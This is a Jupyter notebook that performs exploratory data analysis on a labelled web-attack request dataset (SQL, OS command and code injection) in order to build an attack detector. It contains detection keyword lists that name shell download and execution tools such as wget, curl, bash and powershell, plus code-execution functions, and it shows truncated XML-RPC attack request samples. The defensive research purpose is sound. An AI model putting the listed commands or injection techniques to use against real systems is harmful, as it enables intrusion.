# SR-BH 2020 Derived Dataset EDA

This notebook performs a complete exploratory data analysis for the derived attack dataset stored at `datasets/post_filtered_attack_dataset.csv`.

The analysis is written in a readable, educational style and saves generated figures into the `eda_outputs/` folder.

## 1. Load Dataset

Import the required libraries, configure display settings, define helper functions and prepare the output directory used for plot exports.

In [1]:
from pathlib import Path
from urllib.parse import parse_qsl
import math
import re

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns

pd.set_option("display.max_columns", None)
pd.set_option("display.max_colwidth", 200)
sns.set_theme(style="whitegrid", context="talk")

WORK_DIR = Path.cwd()
REPO_ROOT = WORK_DIR.parent if WORK_DIR.name == "scripts" else WORK_DIR
DATA_PATH = REPO_ROOT / "datasets" / "post_filtered_attack_dataset.csv"
OUTPUT_DIR = REPO_ROOT / "eda_outputs"
OUTPUT_DIR.mkdir(parents=True, exist_ok=True)

LABEL_MAP = {
    0: "Normal",
    1: "SQL Injection",
    3: "OS Command Injection",
    4: "Code Injection",
}

ATTACK_LABELS = [1, 3, 4]
SPECIAL_CHARACTERS = ["'", '"', ';', '|', '&', '(', ')', '<', '>', '=', '%', '$', '#', '*', '/', '\\']
SQL_KEYWORDS = ["select", "union", "sleep", "or", "and", "drop", "insert", "update", "delete", "from", "where"]
SHELL_KEYWORDS = ["cat", "ls", "wget", "curl", "bash", "sh", "chmod", "sleep", "whoami", "ping", "cmd", "powershell"]
CODE_KEYWORDS = ["eval", "exec", "system", "php", "print", "assert", "chr", "script", "import", "__import__", "base64", "passthru"]

def save_current_fig(name: str) -> None:
    plt.tight_layout()
    plt.savefig(OUTPUT_DIR / name, dpi=200, bbox_inches="tight")

def safe_text(value) -> str:
    if pd.isna(value):
        return ""
    return str(value)

def safe_len(value) -> int:
    return len(safe_text(value))

def count_special_characters(value, characters=None) -> int:
    text = safe_text(value)
    characters = SPECIAL_CHARACTERS if characters is None else characters
    return sum(text.count(char) for char in characters)

def count_digits(value) -> int:
    return sum(char.isdigit() for char in safe_text(value))

def count_alpha(value) -> int:
    return sum(char.isalpha() for char in safe_text(value))

def count_parameters(value) -> int:
    text = safe_text(value)
    if not text.strip():
        return 0
    try:
        parsed = parse_qsl(text, keep_blank_values=True)
        return len(parsed) if parsed else 1
    except Exception:
        return text.count("&") + 1

def shannon_entropy(value) -> float:
    text = safe_text(value)
    if not text:
        return 0.0
    probabilities = pd.Series(list(text)).value_counts(normalize=True)
    return float(-(probabilities * np.log2(probabilities)).sum())

def keyword_count(value, keywords) -> int:
    text = safe_text(value).lower()
    return sum(text.count(keyword) for keyword in keywords)

def query_delimiter_count(url_value) -> int:
    text = safe_text(url_value)
    return text.count("?") + text.count("&")

def build_character_frequency(frame: pd.DataFrame, column: str) -> pd.DataFrame:
    rows = []
    for label, label_name in LABEL_MAP.items():
        subset = frame.loc[frame["label"] == label, column].fillna("")
        row = {char: subset.str.count(re.escape(char)).sum() for char in SPECIAL_CHARACTERS}
        row["label"] = label
        row["label_name"] = label_name
        rows.append(row)
    return pd.DataFrame(rows).set_index("label_name")

print(f"Dataset path: {DATA_PATH.resolve()}")
print(f"Plot output directory: {OUTPUT_DIR.resolve()}")

Dataset path: C:\Users\eEren\Desktop\attack_request_detection\datasets\post_filtered_attack_dataset.csv
Plot output directory: C:\Users\eEren\Desktop\attack_request_detection\eda_outputs


Load the CSV file, attach readable label names and inspect its basic structure.

In [2]:
df = pd.read_csv(DATA_PATH)
df["label_name"] = df["label"].map(LABEL_MAP).fillna("Unknown")

print("Dataset shape:", df.shape)
display(df.head())
display(df.tail())
display(df.dtypes.rename("dtype").to_frame())

Dataset shape: (19504, 5)


,url,parameter,request_type,label,label_name
0,/blog/index.php/my-account/,username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,POST,0,Normal
1,/blog/wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=85&comment_parent=0,POST,0,Normal
2,/blog/wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=18&comment_parent=0,POST,0,Normal
3,/blog/wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=89&comment_parent=0,POST,0,Normal
4,/blog/wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=32&comment_parent=0,POST,0,Normal


,url,parameter,request_type,label,label_name
19499,/xmlrpc.php,"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string><...",POST,4,Code Injection
19500,/xmlrpc.php,"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string><...",POST,4,Code Injection
19501,/xmlrpc.php,"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string><...",POST,4,Code Injection
19502,/xmlrpc.php,"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string><...",POST,4,Code Injection
19503,/xmlrpc.php,"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string><...",POST,4,Code Injection


,dtype
url,object
parameter,object
request_type,object
label,int64
label_name,object


## 2. Missing Value Analysis

Check null counts, percentages, empty string issues and request type validity. This helps confirm whether the dataset needs basic cleaning before modeling.

In [3]:
missing_summary = pd.DataFrame({
    "missing_count": df.isna().sum(),
    "missing_percentage": (df.isna().mean() * 100).round(2),
})

empty_parameter_count = df["parameter"].fillna("").str.strip().eq("").sum()
empty_url_count = df["url"].fillna("").str.strip().eq("").sum()
normalized_request_type = df["request_type"].fillna("").astype(str).str.upper().str.strip()
invalid_request_types = sorted(set(normalized_request_type.unique()) - {"GET", "POST"})

display(missing_summary)
print("Null URL count:", int(df["url"].isna().sum()))
print("Empty URL count:", int(empty_url_count))
print("Empty parameter count:", int(empty_parameter_count))
print("Unexpected request types:", invalid_request_types if invalid_request_types else "None")

,missing_count,missing_percentage
url,0,0.0
parameter,0,0.0
request_type,0,0.0
label,0,0.0
label_name,0,0.0


Null URL count: 0
Empty URL count: 0
Empty parameter count: 0
Unexpected request types: None


In [4]:
if missing_summary["missing_count"].sum() > 0:
    plt.figure(figsize=(8, 4))
    ax = sns.barplot(x=missing_summary.index, y=missing_summary["missing_count"], palette="crest")
    ax.set_title("Missing Values by Column")
    ax.set_xlabel("Column")
    ax.set_ylabel("Missing count")
    save_current_fig("missing_values_bar.png")
    plt.show()
else:
    print("No missing values were detected, so a missing-value plot is not necessary.")

No missing values were detected, so a missing-value plot is not necessary.


## 3. Duplicate Analysis

Measure exact duplicates, quantify their share in the dataset and inspect how duplicates are distributed across labels.

In [5]:
duplicate_mask = df.duplicated(keep=False)
exact_duplicate_count = int(df.duplicated().sum())
duplicate_percentage = round((exact_duplicate_count / len(df)) * 100, 2) if len(df) else 0.0
duplicate_samples = df.loc[duplicate_mask].sort_values(["label", "url", "parameter"]).head(10)
duplicate_by_label = df[df.duplicated(keep=False)].groupby(["label", "label_name"]).size().rename("duplicate_rows")

print("Exact duplicate rows:", exact_duplicate_count)
print("Duplicate percentage:", duplicate_percentage)
display(duplicate_by_label.to_frame())
display(duplicate_samples)

Exact duplicate rows: 1293
Duplicate percentage: 6.63


,,duplicate_rows
label,label_name,
0,Normal,496
1,SQL Injection,800
3,OS Command Injection,159
4,Code Injection,156


,url,parameter,request_type,label,label_name
2422,//index.php/my-account,username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,POST,0,Normal
2423,//index.php/my-account,username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,POST,0,Normal
2309,//index.php/my-account/edit-profile,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,POST,0,Normal
2312,//index.php/my-account/edit-profile,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,POST,0,Normal
2560,//wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=56&comment_parent=0,POST,0,Normal
2561,//wp-comments-post.php,comment=&submit=Post+Comment&comment_post_ID=56&comment_parent=0,POST,0,Normal
959,/blog%25/index.php/my-account,username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,POST,0,Normal
960,/blog%25/index.php/my-account,username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,POST,0,Normal
829,/blog%25/index.php/my-account/edit-profile,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,POST,0,Normal
830,/blog%25/index.php/my-account/edit-profile,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,POST,0,Normal


## 4. Label Distribution Analysis

Build class frequency and percentage tables, then visualize them with a bar chart and a pie chart.

In [6]:
label_frequency = df["label_name"].value_counts().rename_axis("label_name").to_frame("count")
label_frequency["percentage"] = (label_frequency["count"] / len(df) * 100).round(2)
display(label_frequency)

majority_class_ratio = label_frequency["count"].max() / len(df) if len(df) else np.nan
minority_class_ratio = label_frequency["count"].min() / len(df) if len(df) else np.nan

print("Majority class ratio:", round(float(majority_class_ratio), 4) if pd.notna(majority_class_ratio) else "N/A")
print("Minority class ratio:", round(float(minority_class_ratio), 4) if pd.notna(minority_class_ratio) else "N/A")
print("Dominant class:", label_frequency["count"].idxmax() if not label_frequency.empty else "N/A")

,count,percentage
label_name,,
SQL Injection,9886,50.69
OS Command Injection,4579,23.48
Normal,3085,15.82
Code Injection,1954,10.02


Majority class ratio: 0.5069
Minority class ratio: 0.1002
Dominant class: SQL Injection


C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\400999409.py:3: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.barplot(data=label_frequency.reset_index(), x="label_name", y="count", palette="viridis", ax=axes[0])




In [7]:
fig, axes = plt.subplots(1, 2, figsize=(16, 6))

sns.barplot(data=label_frequency.reset_index(), x="label_name", y="count", palette="viridis", ax=axes[0])
axes[0].set_title("Label Distribution")
axes[0].set_xlabel("Label")
axes[0].set_ylabel("Count")
axes[0].tick_params(axis="x", rotation=20)

axes[1].pie(label_frequency["count"], labels=label_frequency.index, autopct="%1.1f%%", startangle=90)
axes[1].set_title("Label Percentage Share")

save_current_fig("label_distribution.png")
plt.show()

## 5. Request Type Analysis

Check the GET/POST distribution, compare request types across classes and verify whether unexpected HTTP methods appear.

In [8]:
request_type_counts = normalized_request_type.value_counts(dropna=False).rename_axis("request_type").to_frame("count")
request_type_by_label = pd.crosstab(df["label_name"], normalized_request_type, dropna=False)

display(request_type_counts)
display(request_type_by_label)

attack_post_only = (
    normalized_request_type[df["label"].isin(ATTACK_LABELS)].eq("POST").all()
    if df["label"].isin(ATTACK_LABELS).any() else False
)

print("Are all attack samples POST?", attack_post_only)
print("Unexpected request types:", invalid_request_types if invalid_request_types else "None")

,count
request_type,
POST,19504


request_type,POST
label_name,
Code Injection,1954
Normal,3085
OS Command Injection,4579
SQL Injection,9886


Are all attack samples POST? True
Unexpected request types: None




In [9]:
plt.figure(figsize=(10, 6))
ax = sns.countplot(data=df.assign(request_type_clean=normalized_request_type), x="request_type_clean", hue="label_name", palette="Set2")
ax.set_title("Request Type Distribution by Label")
ax.set_xlabel("Request type")
ax.set_ylabel("Count")
save_current_fig("request_type_distribution.png")
plt.show()

## 6. URL Analysis

Derive URL-level metrics such as length, delimiter usage and special-character counts, then visualize their distributions and outliers.

In [10]:
df["url_length"] = df["url"].map(safe_len)
df["url_dot_count"] = df["url"].fillna("").astype(str).str.count(r"\.")
df["url_slash_count"] = df["url"].fillna("").astype(str).str.count("/")
df["url_query_delimiter_count"] = df["url"].map(query_delimiter_count)
df["url_special_char_count"] = df["url"].map(count_special_characters)
df["url_entropy"] = df["url"].map(shannon_entropy)

url_feature_summary = df[[
    "url_length",
    "url_dot_count",
    "url_slash_count",
    "url_query_delimiter_count",
    "url_special_char_count",
    "url_entropy",
]].describe().T
display(url_feature_summary)

,count,mean,std,min,25%,50%,75%,max
url_length,19504.0,49.537069,36.007755,1.0,27.000000,40.000000,55.00000,583.000000
url_dot_count,19504.0,1.269432,1.399730,0.0,1.000000,1.000000,1.00000,35.000000
url_slash_count,19504.0,3.920273,1.566307,1.0,2.000000,4.000000,5.00000,10.000000
url_query_delimiter_count,19504.0,0.401712,0.601302,0.0,0.000000,0.000000,1.00000,6.000000
url_special_char_count,19504.0,5.975851,7.903282,1.0,3.000000,5.000000,6.00000,185.000000
url_entropy,19504.0,4.258220,0.344529,-0.0,4.113206,4.256198,4.49965,5.325071




In [11]:
fig, axes = plt.subplots(2, 3, figsize=(18, 10))
url_features = [
    "url_length",
    "url_dot_count",
    "url_slash_count",
    "url_query_delimiter_count",
    "url_special_char_count",
    "url_entropy",
]

for ax, feature in zip(axes.flatten(), url_features):
    sns.histplot(df[feature], bins=30, kde=True, ax=ax, color="#1f77b4")
    ax.set_title(feature.replace("_", " ").title())

save_current_fig("url_feature_histograms.png")
plt.show()

C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\428664862.py:4: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="coolwarm")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\428664862.py:4: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="coolwarm")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\428664862.py:4: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="coolwarm")
C:\Users\eEren\AppData



In [12]:
fig, axes = plt.subplots(2, 3, figsize=(18, 10))

for ax, feature in zip(axes.flatten(), url_features):
    sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="coolwarm")
    ax.set_title(f"{feature} by label")
    ax.tick_params(axis="x", rotation=20)

save_current_fig("url_feature_boxplots.png")
plt.show()

## 7. Parameter Analysis

Compute parameter-level statistics such as payload length, parameter count and character composition. These features are often highly informative in web attack datasets.

In [13]:
df["parameter_length"] = df["parameter"].map(safe_len)
df["parameter_count"] = df["parameter"].map(count_parameters)
df["parameter_special_char_count"] = df["parameter"].map(count_special_characters)
df["parameter_digit_count"] = df["parameter"].map(count_digits)
df["parameter_alpha_count"] = df["parameter"].map(count_alpha)
df["parameter_entropy"] = df["parameter"].map(shannon_entropy)
df["sql_keyword_count"] = df["parameter"].map(lambda value: keyword_count(value, SQL_KEYWORDS))
df["shell_keyword_count"] = df["parameter"].map(lambda value: keyword_count(value, SHELL_KEYWORDS))
df["code_keyword_count"] = df["parameter"].map(lambda value: keyword_count(value, CODE_KEYWORDS))

parameter_feature_summary = df[[
    "parameter_length",
    "parameter_count",
    "parameter_special_char_count",
    "parameter_digit_count",
    "parameter_alpha_count",
    "parameter_entropy",
    "sql_keyword_count",
    "shell_keyword_count",
    "code_keyword_count",
]].describe().T
display(parameter_feature_summary)

,count,mean,std,min,25%,50%,75%,max
parameter_length,19504.0,196.424118,106.785624,19.000000,135.000000,189.000000,239.000000,613.00000
parameter_count,19504.0,6.267740,2.417101,1.000000,4.000000,7.000000,7.000000,13.00000
parameter_special_char_count,19504.0,20.760972,11.596543,3.000000,12.000000,19.000000,25.000000,131.00000
parameter_digit_count,19504.0,20.825062,20.741966,0.000000,9.000000,14.000000,24.000000,123.00000
parameter_alpha_count,19504.0,141.659916,73.364872,9.000000,100.000000,144.000000,170.000000,386.00000
parameter_entropy,19504.0,4.796310,0.202489,3.850331,4.745653,4.842106,4.930539,5.20319
